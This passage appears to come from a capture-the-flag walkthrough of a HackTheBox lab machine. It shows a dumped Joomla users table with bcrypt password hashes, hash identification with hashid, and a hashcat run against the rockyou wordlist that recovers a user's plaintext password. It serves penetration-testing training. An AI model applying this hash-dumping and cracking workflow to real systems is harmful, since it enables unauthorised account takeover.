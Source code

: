 ```
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2024-04-29 23:04:44 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
```
The format is messy, but with this we can see a hash for another user Logan Paul. We can check home folders and see that logan is a user on this system:
```
www-data@devvortex:/$ ls /home
logan
```
Using `hashid` we can see that this is blowfish/bcrypt encryption:
```
┌──(kali㉿kali)-[~]
└─$ hashid '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12'
Analyzing '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
```
We can crack this hash using  `hashcat`:
```
$ hashcat -m 3200 '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12' /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.5) starting

Successfully initialized NVIDIA CUDA library.
<...SNIP...>
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy...tkIj12
Time.Started.....: Sun Nov 26 01:14:03 2023 (7 secs)
Time.Estimated...: Sun Nov 26 01:14:10 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      187 H/s (7.49ms) @ Accel:16 Loops:8 Thr:11 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 1408/14344384 (0.01%)
Rejected.........: 0/1408 (0.00%)
```